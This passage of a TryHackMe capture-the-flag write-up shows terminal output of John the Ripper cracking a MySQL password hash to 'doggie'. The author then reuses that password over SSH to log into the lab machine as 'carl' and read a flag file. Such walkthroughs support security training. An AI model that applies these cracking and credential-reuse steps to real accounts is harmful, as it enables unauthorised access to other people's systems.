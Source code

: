Now, we need to crack the password! Let's try John the Ripper against it using: "john hash.txt" what is the password of the user we found?

```
bibo318@parrot:~/CTFs/tryhackme/Network Services 2$ john hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (mysql-sha1, MySQL 4.1+ [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=4
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
Warning: Only 4 candidates left, minimum 8 needed for performance.
Proceeding with incremental:ASCII
doggie           (?)
1g 0:00:00:04 DONE 3/3 (2020-11-13 19:00) 0.2173g/s 804282p/s 804282c/s 804282C/s doggie..doggia
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

`doggie`

Awesome. Password reuse is not only extremely dangerous, but extremely common. What are the chances that this user has reused their password for a different service? What's the contents of MySQL.txt

```
bibo318@parrot:~/CTFs/tryhackme/Network Services 2$ ssh carl@10.10.91.253
The authenticity of host '10.10.91.253 (10.10.91.253)' can't be established.
ECDSA key fingerprint is SHA256:9S3Avia08/py9bzFfGsbMQaGCJLMWT3uCYJxPZ/w2j4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.91.253' (ECDSA) to the list of known hosts.
carl@10.10.91.253's password:
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-96-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Nov 13 18:01:53 UTC 2020

  System load:  0.0               Processes:           87
  Usage of /:   41.7% of 9.78GB   Users logged in:     0
  Memory usage: 32%               IP address for eth0: 10.10.91.253
  Swap usage:   0%


23 packages can be updated.
0 updates are security updates.


Last login: Thu Apr 23 12:57:41 2020 from 192.168.1.110
carl@polomysql:~$ ls -lA
total 36
-rw------- 1 carl carl  251 Apr 23  2020 .bash_history
-rw-r--r-- 1 carl carl  220 Apr 23  2020 .bash_logout
-rw-r--r-- 1 carl carl 3771 Apr 23  2020 .bashrc
drwx------ 2 carl carl 4096 Apr 23  2020 .cache
drwx------ 3 carl carl 4096 Apr 23  2020 .gnupg
-rw-r--r-- 1 carl carl  807 Apr 23  2020 .profile
drws--S--- 2 carl carl 4096 Apr 23  2020 .ssh
-rw------- 1 carl carl 1854 Apr 23  2020 .viminfo
-rw-rw-r-- 1 carl carl   44 Apr 23  2020 MySQL.txt
carl@polomysql:~$ cat MySQL.txt
THM{V0N318*****congratulations_you_got_the_mySQL_flag}
```
